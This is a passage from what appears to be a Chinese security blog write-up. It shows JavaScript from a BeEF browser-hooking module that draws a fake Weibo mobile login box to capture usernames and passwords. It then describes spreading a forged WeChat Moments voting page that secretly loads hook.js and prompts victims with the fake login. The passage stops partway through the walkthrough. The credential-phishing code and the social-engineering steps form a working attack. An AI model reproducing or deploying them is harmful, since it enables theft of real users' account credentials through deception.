     serif;margin:10px 15px;line-height:12px;height:40px;"';
            var box_prestyle = 'style="color: grey;font-size: 11px;font-weight: bold;font-family: 
    
    tahoma,verdana,arial,sans-serif;padding-left:30px;"';
            var inputboxstyle = 'style="width:140px;font-size: 11px;height: 20px;line-height:20px;padding-
    
    left:4px;border-style: solid;border-width: 1px;border-color: rgb(255,102,0);"'; 
            var buttonstyle = 'style="font-size: 13px;background:#ff6600;color:#fff;font-weight:bold;border: 
    
    1px #29447e solid;padding: 3px 3px 3px 3px;clear:both;margin-right:5px;"';
    
                var title = '微博手机版安全登录';
                var messagewords = '请输入您的用户名密码登录后进行投票。<br/><br/>我们将对您的投票信息严格保密。';
                var buttonLabel = '<input type="button" name="ok" value="登录" id="ok" ' +buttonstyle+ ' 
    
    onClick="document.getElementById(\'buttonpress\').value=\'true\'" onMouseOver="this.bgColor=\'#00CC00\'" 
    
    onMouseOut="this.bgColor=\'#009900\'" bgColor=#009900>';
    
            // Build page including styles
            sneakydiv.innerHTML= '<div id="window_container" '+windowborder+ '><div id="windowmain" ' 
    
    +windowmain+ '><div id="title_bar" ' +tbarstyle+ '>' +title+ '</div><p id="message" ' +messagestyle+ '>' + 
    
    messagewords + '</p><table><tr><td align="right"> <div id="box_pre" ' +box_prestyle+ '>邮箱/会员帐号/手机号: 
    
    </div></td><td align="left"><input type="text" id="uname" value="" onkeydown="if (event.keyCode == 13) 
    
    document.getElementById(\'buttonpress\').value=\'true\'"' +inputboxstyle+ '/></td></tr><tr><td align="right"><div 
    
    id="box_pre" ' +box_prestyle+ '>密码: </div></td><td align="left"><input type="password" id="pass" name="pass" 
    
    onkeydown="if (event.keyCode == 13) document.getElementById(\'buttonpress\').value=\'true\'"' +inputboxstyle+ 
    
    '/></td></tr></table>' + '<div id="bottom_bar" ' +bbarstyle+ '>' +buttonLabel+ '<input type="hidden" 
    
    id="buttonpress" name="buttonpress" value="false"/></div></div></div>';
    
            // Repeatedly check if button has been pressed
            credgrabber = setInterval(checker,1000);
        }
    

## 3、实际操作

**1、**微信朋友圈发布投票消息，如图

![这里写图片描述](http://static.wooyun.org//drops/20151027/2015102707055832230.net/20151026193255132)

用户点击后会打开我们伪造的投票页面，同时隐蔽加载hook.js，在BeEF端上线

**2、**在用户手机弹出模拟微博登录的对话框
